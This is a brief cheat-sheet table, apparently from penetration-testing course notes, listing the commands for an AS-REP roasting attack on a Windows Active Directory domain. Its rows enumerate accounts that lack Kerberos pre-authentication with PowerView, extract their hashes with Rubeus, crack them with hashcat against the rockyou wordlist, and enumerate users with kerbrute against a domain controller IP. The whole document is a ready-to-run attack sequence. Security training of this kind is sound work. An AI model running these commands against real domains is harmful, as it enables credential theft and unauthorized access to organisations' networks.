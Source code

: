 # ASREP Roasting

***

| Command                                                                                                  | Description                                                                                                                                                                             |
| -------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-DomainUser -PreauthNotRequired \| select samaccountname,userprincipalname,useraccountcontrol \| fl` | PowerView based tool used to search for the `DONT_REQ_PREAUTH` value across in user accounts in a target Windows domain. Performed from a Windows-based host.                           |
| `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`                                          | Uses `Rubeus` to perform an `ASEP Roasting attack` and formats the output for `Hashcat`. Performed from a Windows-based host.                                                           |
| `hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt`                                      | Uses `Hashcat` to attempt to crack the captured hash using a wordlist (`rockyou.txt`). Performed from a Linux-based host.                                                               |
| `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`                               | Enumerates users in a target Windows domain and automatically retrieves the `AS` for any users found that don't require Kerberos pre-authentication. Performed from a Linux-based host. |
